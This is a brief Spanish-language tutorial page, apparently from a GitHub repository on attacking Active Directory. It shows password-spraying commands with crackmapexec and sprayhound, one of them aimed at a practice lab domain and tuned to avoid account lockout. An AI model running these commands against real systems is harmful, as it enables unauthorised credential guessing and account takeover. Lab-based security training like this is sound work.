 # Técnica de password spray

```Bash
poetry run crackmapexec smb <direccion ip> -u <txt de lista de usuarios> -p <txt de lista de contraseñas>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/user_but_no_credentials/password_spray/files/vid.gif?raw=true "Password spray con crackmapexec")

```Bash
sprayhound -U <txt de lista de ususarios> <nombre dominio completo> -dc <direccion ip> --lower

# 2 intentos fallidos para no bloquear las cuentas
sprayhound -U GOAD/users.txt -d north.sevenkingdoms.local -dc 192.168.56.11 -lu hodor -lp hodor --lower -t 2
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/user_but_no_credentials/password_spray/files/vid2.gif?raw=true "Password spray con sprayhound")
